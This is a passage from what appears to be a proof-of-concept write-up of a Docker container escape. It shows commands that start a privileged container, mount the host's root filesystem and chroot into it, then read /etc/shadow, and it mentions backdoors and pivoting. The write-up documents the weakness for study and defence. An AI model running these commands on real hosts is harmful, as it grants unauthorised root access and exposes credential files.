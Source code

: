     ```Bash
    
    # Inside vulnerable-poc-container
    docker ps -a
    ```
    
    This command will list all containers running on the host, demonstrating that the container has control over the host's Docker daemon.
    
5. Container Escape and Host Compromise (Inside Container)
    
    The attacker launches a new, privileged container from within vulnerable-poc-container, mounting the host's root filesystem into this new container:
    
    ```Bash
    
    # Inside vulnerable-poc-container
    docker run -it --rm --privileged -v /:/host_fs alpine chroot /host_fs sh
    ```
    
    - `docker run -it --rm`: Runs a new interactive container and removes it upon exit.
    - `-privileged`: Grants all capabilities to the new container, disables seccomp/AppArmor profiles, and gives access to all host devices. This is a key step for full host control.
    - `v /:/host_fs`: Mounts the host's entire root filesystem (`/`) to the `/host_fs` directory inside the newly created container.
        
    - `alpine`: Specifies the image for the new container (a small Linux distribution).
    - `chroot /host_fs sh`: After the new container starts and the host filesystem is mounted at `/host_fs`, this command changes the root directory context of the shell to `/host_fs`. This means the shell is now operating as if the host's root filesystem is its own root.
6. Post-Exploitation (Operating as Root on Host)
    
    The attacker now has a shell that is effectively root on the host system. They can perform any action:
    
    ```Bash
    
    # Shell is now chrooted to the host's filesystem
    # Current directory is effectively the host's root '/'
    whoami
    # Expected output: root
    
    cat /etc/shadow  # Read sensitive host files
    # Install tools, create backdoors, pivot to other systems, etc.
    ```
    